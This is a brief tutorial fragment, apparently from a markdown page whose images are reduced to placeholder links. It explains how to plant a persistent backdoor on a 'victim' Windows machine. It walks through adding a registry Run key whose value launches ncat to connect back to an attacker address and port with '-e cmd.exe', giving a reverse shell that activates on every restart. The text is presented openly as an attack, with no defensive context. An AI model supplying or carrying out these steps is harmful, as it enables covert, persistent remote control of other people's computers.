




manually
To setup a persistent backdoor with
ncat we need to add the command key to the victim registry
Backdoor server(
attacker linux machine
)
attacker waiting for the victim connection
Backdoor client(
victim windows machine
)
1. start the
registry editor2. Go to the folder: HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
3. add a string value for the ncat binary
 value data: "C:\Windows\System32\ncat.exe" 192.168.1.122 5555 -e cmd.exe
 where:
◇
file exe of ncat: "C:\Windows\System32\ncat.exe" (that we have installed)
◇
address of the attacker machine: 192.168.1.122
◇
port of the attacker listening: 5555
◇
command to execute: -e cmd.exe
4. A restart of the victim machine will activate the backdoor